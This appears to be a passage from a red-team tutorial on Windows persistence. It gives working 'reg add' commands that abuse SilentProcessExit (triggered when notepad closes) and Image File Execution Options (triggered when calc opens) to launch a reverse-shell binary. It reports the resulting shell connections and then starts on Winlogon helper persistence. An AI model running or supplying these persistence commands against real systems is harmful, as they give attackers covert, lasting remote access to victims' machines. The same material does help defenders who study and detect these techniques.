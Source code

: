 ![image](https://github.com/user-attachments/assets/72e6c5cb-db85-4874-ba41-3db7485d717c)

</br>

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Users\s12de\Downloads\shell.exe"
```

![image](https://github.com/user-attachments/assets/2443efac-4901-4516-abb1-3b987b858963)

Result:

When i close notepad automatically i receive the reverse shell

![image](https://github.com/user-attachments/assets/7d6e5742-79a8-4816-9d46-515529c75873)


### Open App:

This next method is my second favorite — it allows your binary to execute whenever a specific process or binary is launched. In this case, a reverse shell is triggered when the user opens the `calc.exe` process.

To do this we need to execute 2 commands in cmd:

```bash
copy calc.exe _calc.exe
```

![image](https://github.com/user-attachments/assets/7c962d0d-a191-46de-a71c-162a3de9bf90)

</br>

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & C:\Users\s12de\Downloads\shell.exe /f
```

![image](https://github.com/user-attachments/assets/c84e019a-23b6-42b6-ba2e-82520b9836bd)

Result:

When user open calculator i receive reverse shell connection.


### WinLogon:

> Persistence — Winlogon Helper DLL\
Winlogon is a Windows component which handles various activities such as the Logon, Logoff, loading user profile during. [pentestlab.blog](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)

Winlogon is a core Windows component responsible for handling actions like logon, logoff, user profile loading during authentication, shutdown, and the lock screen. These behaviors are controlled through the registry, 
which specifies processes to launch during the logon sequence. From a red team perspective, these events present an opportunity to trigger arbitrary payloads for persistence.
